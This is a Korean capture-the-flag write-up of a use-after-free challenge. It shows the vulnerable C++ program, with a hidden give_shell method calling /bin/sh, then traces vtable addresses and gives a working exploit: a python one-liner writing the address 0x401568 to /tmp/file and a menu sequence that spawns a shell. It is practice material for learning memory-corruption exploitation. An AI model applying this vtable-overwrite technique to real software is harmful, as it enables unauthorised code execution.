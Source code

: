 
\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>private:</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;virtual void give_shell(){</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;system("/bin/sh");</br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</br>
protected:</br>
	int age;</br>
	string name;</br>
public:</br>
	virtual void introduce(){ </br>
		cout << "My name is " << name << endl;</br>
		cout << "I am " << age << " years old" << endl;</br>
	}</br>
};</br>

class Man: public Human{</br>
public:</br>
	Man(string name, int age){</br>
		this->name = name;</br>
		this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
		Human::introduce();</br>
                cout << "I am a nice guy!" << endl;</br>
        }</br>
};</br>

class Woman: public Human{</br>
public:</br>
        Woman(string name, int age){</br>
                this->name = name;</br>
                this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
                Human::introduce();</br>
                cout << "I am a cute girl!" << endl;</br>
        }</br>
};</br>

int main(int argc, char* argv[]){</br>
	Human* m = new Man("Jack", 25);</br>
	Human* w = new Woman("Jill", 21);</br>

	size_t len;</br>
	char* data;</br>
	unsigned int op;</br>
	while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>

처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
